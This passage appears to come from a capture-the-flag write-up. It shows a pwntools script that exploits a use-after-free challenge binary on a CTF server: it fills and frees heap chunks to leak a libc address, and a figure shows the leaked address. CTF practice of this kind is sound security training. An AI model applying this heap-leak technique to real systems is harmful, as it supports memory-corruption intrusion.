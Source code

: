 ```python
elf = context.binary = ELF('./uaf_patched')
libc = ELF('./libc.so.6')
url,port = 'host1.metaproblems.com',5600

if args.REMOTE:
	p = remote(url,port)
else:
	p = elf.process()

if args.GDB:
	gdb.attach(p)

for _ in range(8):
	print('creating',_)
	create(b'test')
for i in range(7,-1,-1):
	print('deleting',i)
	delete(str(i).encode())

leak = view(b'0')
leak = u64(leak.ljust(8,b'\x00'))
print(hex(leak))

p.interactive()
p.close()
```

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>leaked libc address</p></figcaption></figure>
